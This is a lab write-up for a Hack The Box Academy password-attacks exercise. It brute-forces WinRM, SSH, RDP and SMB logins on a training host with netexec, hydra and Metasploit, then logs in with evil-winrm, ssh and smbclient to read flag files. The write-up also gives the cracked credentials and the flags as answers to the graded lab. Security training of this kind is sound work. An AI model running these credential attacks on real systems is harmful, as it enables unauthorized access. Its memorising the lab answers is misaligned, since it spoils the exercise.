

# Section 08: Network Services

Module: 10. Password Attacks

---

## Questions & Answers

### 1. Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

Context:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ vim username.list
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ vim password.list
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ sudo apt-get -y install netexec
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
netexec is already the newest version (1.5.1-0parrot1).
netexec set to manually installed.
The following package was automatically installed and is no longer required:
  linux-image-6.12.73+deb13-amd64
Use 'sudo apt autoremove' to remove it.
0 upgraded, 0 newly installed, 0 to remove and 499 not upgraded.
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ netexec winrm 10.129.47.66 -u username.list -p password.list
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating missing folder logs/sam
[*] Creating missing folder logs/lsa
[*] Creating missing folder logs/ntds
[*] Creating missing folder logs/dpapi
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing MSSQL protocol database
[*] Initializing VNC protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing FTP protocol database
[*] Initializing SSH protocol database
[*] Initializing WMI protocol database
[*] Initializing NFS protocol database
[*] Initializing WINRM protocol database
[*] Copying default configuration file
WINRM       10.129.47.66    5985   WINSRV           [*] Windows 10 / Server 2019 Build 17763 (name:WINSRV) (domain:WINSRV) 
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\john:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\dennis:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\chris:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\cassie:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\admin:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\root:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\sysadmin:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\sysadm:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\svc:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\administrator:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\helpdesk:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\reception:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\finance:123456
WINRM       10.129.47.66    5985   WINSRV           [-] WINSRV\its:123456
# ...
```
Found `john:november`
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ evil-winrm -i 10.129.47.66 -u john -p november
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\john\Documents> type C:\Users\john\Desktop\flag.txt
HTB{That5Novemb3r}
```

**Answer:** `HTB{That5Novemb3r}`

---

### 2. Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

Context:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ hydra -L username.list -P password.list ssh://10.129.47.66
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-04 08:14:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 20806 login tries (l:103/p:202), ~1301 tries per task
[DATA] attacking ssh://10.129.47.66:22/
[22][ssh] host: 10.129.47.66   login: dennis   password: rockstar
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ ssh dennis@10.129.47.66
The authenticity of host '10.129.47.66 (10.129.47.66)' can't be established.
ED25519 key fingerprint is SHA256:dRz9BL6NhfzNWUhWdhoTCZB0pFXi+moLOqEj4XlPHOY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.47.66' (ED25519) to the list of known hosts.
dennis@10.129.47.66's password: 

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

dennis@WINSRV C:\Users\dennis>dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Users\dennis

01/05/2022  09:14 AM    <DIR>          .
01/05/2022  09:14 AM    <DIR>          ..
01/05/2022  09:14 AM    <DIR>          3D Objects
01/05/2022  09:14 AM    <DIR>          Contacts
01/05/2022  09:16 AM    <DIR>          Desktop
01/05/2022  09:14 AM    <DIR>          Documents
01/05/2022  09:14 AM    <DIR>          Downloads
01/05/2022  09:14 AM    <DIR>          Favorites
01/05/2022  09:14 AM    <DIR>          Links
01/05/2022  09:14 AM    <DIR>          Music
01/05/2022  09:14 AM    <DIR>          Pictures
01/05/2022  09:14 AM    <DIR>          Saved Games
01/05/2022  09:14 AM    <DIR>          Searches
01/05/2022  09:14 AM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)  26,263,900,160 bytes free

dennis@WINSRV C:\Users\dennis>dir Desktop
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Users\dennis\Desktop

01/05/2022  09:16 AM    <DIR>          .
01/05/2022  09:16 AM    <DIR>          ..
01/05/2022  09:39 AM                15 flag.txt
               1 File(s)             15 bytes
               2 Dir(s)  26,262,777,856 bytes free

dennis@WINSRV C:\Users\dennis>cat Desktop\flag.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

dennis@WINSRV C:\Users\dennis>type Desktop\flag.txt 
HTB{Let5R0ck1t} 
dennis@WINSRV C:\Users\dennis>
```

**Answer:** `HTB{Let5R0ck1t}`

---

### 3. Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

Context:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ hydra -L username.list -P password.list rdp://10.129.47.66
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-04 08:17:31
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 20806 login tries (l:103/p:202), ~5202 tries per task
# Found username:chris password:789456123
```


**Answer:** `HTB{R3m0t3DeskIsw4yT00easy}`

---

### 4. Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

Context:
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ msfconsole -q
[msf](Jobs:0 Agents:0) >> use auxiliary/scanner/smb/smb_login
[*] New in Metasploit 6.4 - The CreateSession option within this module can open an interactive session
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set user_file username.list
user_file => username.list
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set pass_file password.list
pass_file => password.list
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> set rhosts 10.129.47.66
rhosts => 10.129.47.66
[msf](Jobs:0 Agents:0) auxiliary(scanner/smb/smb_login) >> run
[*] 10.129.47.66:445      - 10.129.47.66:445      - Starting SMB login bruteforce
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:123456',
[!] 10.129.47.66:445      - No active DB -- Credential data will not be saved!
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:12345',
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:123456789',
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:batman',
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:password',
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:iloveyou',
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\john:princess',
[+] 10.129.47.66:445      - 10.129.47.66:445      - Success: '.\john:november'
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\dennis:123456',
[-] 10.129.47.66:445      - 10.129.47.66:445      - Failed: '.\dennis:12345',
...
[+] 10.129.47.66:445      - 10.129.47.66:445      - Success: '.\cassie:12345678910'
```
```bash
┌─[eu-academy-2]─[10.10.14.98]─[htb-ac-2162140@htb-y3nt6hf04j]─[~]
└──╼ [★]$ smbclient -U cassie \\\\10.129.47.66\\CASSIE
Password for [WORKGROUP\cassie]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Thu Jan  6 12:48:47 2022
  ..                                 DR        0  Thu Jan  6 12:48:47 2022
  desktop.ini                       AHS      282  Thu Jan  6 09:44:52 2022
  flag.txt                            A       16  Thu Jan  6 09:46:14 2022

		10328063 blocks of size 4096. 6419045 blocks available
smb: \> get flag.txt
getting file \flag.txt of size 16 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> !cat flag.txt
HTB{S4ndM4ndB33}
```

**Answer:** `HTB{S4ndM4ndB33}`

---

[Back to Module Index](./README.md)
